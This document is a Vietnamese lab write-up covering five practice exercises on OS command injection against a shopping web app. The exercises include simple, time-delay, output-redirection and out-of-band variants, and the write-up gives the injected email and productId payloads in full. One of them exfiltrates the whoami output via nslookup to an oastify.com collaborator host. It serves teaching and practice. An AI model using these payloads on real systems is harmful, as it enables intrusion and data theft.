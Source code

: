 # OS Command Injection
## Executing arbitrary commands
**Lab1: OS command injection, simple case**

Bước 1: Truy cập vào một sản phẩm bất kỳ, click vào Check stock, bắt request này và gửi đến Repeater

![image](https://user-images.githubusercontent.com/74781135/203685214-fba36bb0-15e7-4127-89a8-e5fb24dc0040.png)

Có nhiều cách để thực thi nhiều lệnh trên một dòng trong một shell, ví dụ: **&**, **&&**, **|**, **||**,**;**. 

Bước 2: Đổi giá trị tham số productId và storeId

![image](https://user-images.githubusercontent.com/74781135/203687216-ef1802d4-d001-46a6-b608-c492fbc5200e.png)

Từ phản hồi có thể thấy cả hai tham số đều có thể chèn câu lệnh vào và chúng được thực thi theo thứ tự productId đầu tiên, storeId thứ hai.

Bước 3: Chèn lệnh whoami để lấy được tên user

![image](https://user-images.githubusercontent.com/74781135/203687572-7a7ac458-31bb-4697-be32-56a363c11c2b.png)

![image](https://user-images.githubusercontent.com/74781135/203687597-bb7c5dd5-b270-4fa2-9f86-a7f0bebfeb1d.png)

## Blind OS command injection
**Lab2: Blind OS command injection with time delays**

Bước 1: Chọn chức năng Submit feedback, bắt request này và gửi đến Repeater

![image](https://user-images.githubusercontent.com/74781135/203717987-8941a14a-4177-48e4-9910-d178bbd0516f.png)

Có nhiều cách để tạo độ trễ thời gian trên dấu nhắc lệnh, hầu hết phụ thuộc vào hệ điều hành (ví dụ: sleep in bash hoặc timeout trong Windows cmd). Có một lệnh có sẵn trên hầu hết mọi hệ thống có thể bị lạm dụng để gây ra sự chậm trễ: Lệnh **ping**. 

Bước 2: Thay đổi giá trị của **email=minh%40gmail.com;ping+127.0.0.1+-c+11;#** và gửi lại request. Ta thấy phản hồi là **10,707 millis**

![image](https://user-images.githubusercontent.com/74781135/203722508-fe6ea020-850e-409f-a095-fb498ad71ade.png)

Trên Windows ping mặc định cho bốn yêu cầu và mặc định này có thể được sử dụng để suy ra độ trễ. Nhưng trên Linux, ping được mặc định là vĩnh viễn, vì vậy nó sẽ không bao giờ dừng. **-c + n** là để chỉ rõ là sẽ thực hiện **n lệnh ping** trong trường hợp bài lab này là 11 lệnh ping.

![image](https://user-images.githubusercontent.com/74781135/203722303-1839aa76-d532-4044-860b-83c3eb98a715.png)

**Lab3: Blind OS command injection with output redirection**

Bước 1: Chọn chức năng Submit feedback, bắt request này và gửi đến Repeater

![image](https://user-images.githubusercontent.com/74781135/203726686-6981d202-958d-4f52-97b3-5f2e43d168d7.png)

Như mô tả của bài lab, có thể ghi tại thư mục **/var/www/images/**

Bước 2: Thay đổi giá trị của **email=minh%40gmail.com;whoami>/var/www/images/minh.txt;#** và gửi lại request

![image](https://user-images.githubusercontent.com/74781135/203728342-15920c64-cbbc-4af6-9f29-be01d156e815.png)

Bước 3: Truy cập vào một sản phẩm bất kỳ. Bắt request lấy ảnh và gửi đến Repeater

![image](https://user-images.githubusercontent.com/74781135/203728615-624156a8-c5fe-4433-ad79-d034b585ef54.png)

Bước 4: Thay đổi filename=minh.txt và gửi request. Ta thu được tên người dùng

![image](https://user-images.githubusercontent.com/74781135/203728976-9023f040-0dd9-454b-ae2a-a4f045636043.png)

![image](https://user-images.githubusercontent.com/74781135/203729051-73b357ec-c705-487d-ba8a-e5f46c39eaf9.png)

**Lab4: Blind OS command injection with out-of-band interaction**

Bước 1: Chọn chức năng Submit feedback, bắt request này và gửi đến Repeater

![image](https://user-images.githubusercontent.com/74781135/203731260-424b9700-5b4c-452a-a65f-bb59878d2511.png)

Theo như mô tả của bài lab, có thể kích hoạt các tương tác ngoài băng tần với miền bên ngoài. Do đó, mở một Burp Collaborator và tạo một payload mới. Chèn payload này vào giá trị của email.

Bước 2: Giá trị email là: **email=minh%40gmail.com;nslookup+omepn9u8wlj1remrojsxdwnoffl69wxl.oastify.com;#**.

![image](https://user-images.githubusercontent.com/74781135/203734245-671c72ac-1806-4f69-87f7-0460fed92efd.png)

Sau khi gửi request tại burp collaborator thấy có 2 bản tra cứu DNS sẽ được hiển thị.

![image](https://user-images.githubusercontent.com/74781135/203734859-b27dcacb-4e81-47a4-b176-c0cf5fee53d7.png)

![image](https://user-images.githubusercontent.com/74781135/203734926-ea17ef03-ee3b-42c4-88ae-3d57007c11ac.png)

**Lab5: Blind OS command injection with out-of-band data exfiltration**

Bước 1:  Chọn chức năng Submit feedback, bắt request này và gửi đến Repeater

![image](https://user-images.githubusercontent.com/74781135/203737005-df98b567-9090-4843-be28-7996173c5f6e.png)

Bước 2: Tương tự như bài Lab4, nhưng lần này yêu cầu thêm tên người dùng nên ta sẽ thêm đầu ra của whoami dưới dạng subdomain. Thay giá trị email thành: **email=minh%40gmail.com;nslookup+`whoami`.je1kf4m3ogbwj9emgeks5rfj7ad11upj.oastify.com;#** và gửi request

![image](https://user-images.githubusercontent.com/74781135/203752056-1937ac35-5b82-4ef7-8caa-56427bfed113.png)

Bước 3: Trong Burp Collaborator,  thấy có 2 bản tra cứu DNS sẽ được hiển thị. Subdomain chính là tên người dùng. username = **peter-1HDAhL**  

![image](https://user-images.githubusercontent.com/74781135/203752715-7327be5b-06d2-46dc-bf14-ef1ba122226c.png)

Bước 4: Submit tên người dùng và hoàn thành bài Lab

![image](https://user-images.githubusercontent.com/74781135/203753077-f2319d08-61fa-4ff7-9662-fd81d558889d.png)
